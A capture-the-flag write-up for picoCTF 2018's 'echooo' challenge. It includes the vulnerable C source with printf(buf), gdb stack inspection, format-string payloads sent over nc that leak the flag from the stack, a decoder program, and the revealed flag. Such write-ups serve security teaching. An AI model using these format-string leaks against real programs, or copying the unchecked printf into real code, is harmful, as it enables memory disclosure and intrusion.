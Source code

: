 # [echooo](https://2018game.picoctf.com/problems)

## Problem
This program prints any input you give it. Can you [leak](https://2018shell3.picoctf.com/static/802110a231267eb07cdead16416dea12/echo) the flag? Connect with nc 2018shell3.picoctf.com 23397. [Source](https://2018shell3.picoctf.com/static/802110a231267eb07cdead16416dea12/echo.c).

## Solution

here's the source code

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;

  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");

  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);

  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

let's open the executable locally with gdb and have a look at the stack before the format string gets executed

```
——> gdb echo
Reading symbols from echo...(no debugging symbols found)...done.
gdb-peda$ disas main
Dump of assembler code for function main:
   0x080485fb <+0>:	lea    ecx,[esp+0x4]
[..]
0x080486ff <+260>:	call   0x8048490 <exit@plt>
0x08048704 <+265>:	sub    esp,0x4
0x08048707 <+268>:	push   DWORD PTR [ebp-0x90]
0x0804870d <+274>:	push   0x40
0x0804870f <+276>:	lea    eax,[ebp-0x4c]
0x08048712 <+279>:	push   eax
0x08048713 <+280>:	call   0x8048460 <fgets@plt> <-- fgets(flag, sizeof(flag), file);
0x08048718 <+285>:	add    esp,0x10
[..]
0x08048742 <+327>:	add    esp,0x10
0x08048745 <+330>:	sub    esp,0xc
0x08048748 <+333>:	lea    eax,[ebp-0x8c]
0x0804874e <+339>:	push   eax
0x0804874f <+340>:	call   0x8048450 <printf@plt>
0x08048754 <+345>:	add    esp,0x10
0x08048757 <+348>:	jmp    0x804871b <main+288>
End of assembler dump.
gdb-peda$ b *0x0804874f
Breakpoint 1 at 0x804874f
gdb-peda$ r
Starting program: /home/andrei/Documents/pico/echo
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> AAAABBBB
Breakpoint 1, 0x0804874f in main ()
gdb-peda$
```

looking at the disassembly of main we can also get the address of the ```flag``` variable; the call to the fgets that reads the flag.txt file is at main+280, and just before that the flag buffer is pushed on the stack from eax to pass it as argument. the address is loaded on eax the line before with ```lea    eax,[ebp-0x4c]``` so there's our buffer:

```
gdb-peda$ x/wx $ebp-0x4c
0xffffd8fc:	0x6f636970
```

and here's the stack prior to the printf

```
gdb-peda$ x/64wx $esp
0xffffd890:	0xffffd8bc	0x00000040	0xf7f95580	0x08048647
0xffffd8a0:	0xf7ffc8e4	0xf63d4e2e	0xf7ffdacc	0xffffd9f4
0xffffd8b0:	0xffffd8fc	0x000003e8	0x0804b160	0x41414141
0xffffd8c0:	0x42424242	0x0000000a	0x00000000	0x00000000
0xffffd8d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd8e0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd8f0:	0x00000000	0x00000000	0x00000000	0x6f636970
0xffffd900:	0x7b465443	0x6b6e6166	0x7d6f6c75	0xf7f9000a
0xffffd910:	0xf7f94e24	0xf7f94e24	0x00000000	0xf7dedafb
0xffffd920:	0xf7f953bc	0x00040000	0x00000003	0x080487ab
0xffffd930:	0x00000001	0xffffd9f4	0xffffd9fc	0x0fec1a00
0xffffd940:	0xf7fe4150	0xffffd960	0x00000000	0xf7dd6b41
0xffffd950:	0xf7f94e24	0xf7f94e24	0x00000000	0xf7dd6b41
0xffffd960:	0x00000001	0xffffd9f4	0xffffd9fc	0xffffd984
0xffffd970:	0x00000001	0x00000000	0xf7f94e24	0xffffffff
0xffffd980:	0xf7ffcfb4	0x00000000	0xf7f94e24	0xf7f94e24
```

so our input begins at 0xffffd8bc and the flag begins at 0xffffd8fc;
also the flag buf is the 27th word on the stack, we can check that with the format string:

```
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> 0x%27$08x
0x6f636970
```

bingo. now we just need to read the flag. after ```nc```ing on the server we try to read the flag string:

```
——> nc 2018shell3.picoctf.com 23397
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %27s
timeout: the monitored command dumped core
```

but that leads to core dump. so we can read the words and translate them to string locally

```
——> nc 2018shell3.picoctf.com 23397
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> 0x%27$08x_0x%28$08x_0x%29$08x_0x%30$08x_0x%31$08x_0x%32$08x_
0x6f636970_0x7b465443_0x6d526f66_0x735f7434_0x6e695274_0x615f7347_
```

after we have all the words we can write a C program to read the flag:

```
#include <stdio.h>

int main(void) {

	int s[] = {0x6f636970, 0x7b465443, 0x6d526f66, 0x735f7434,
  			0x6e695274, 0x615f7347, 0x445f6552, 0x65476e61,
  			0x73753072, 0x3435325f, 0x61383431, 0x000a7d65,
  			0x080487ab, 0x00000001, 0x00};

	printf("%s\n", (char *) s);

	return 0;
}
```

```
——> gcc -m32 decode.c -o decode
——> ./decode
picoCTF{foRm4t_stRinGs_aRe_DanGer0us_254148ae}
```
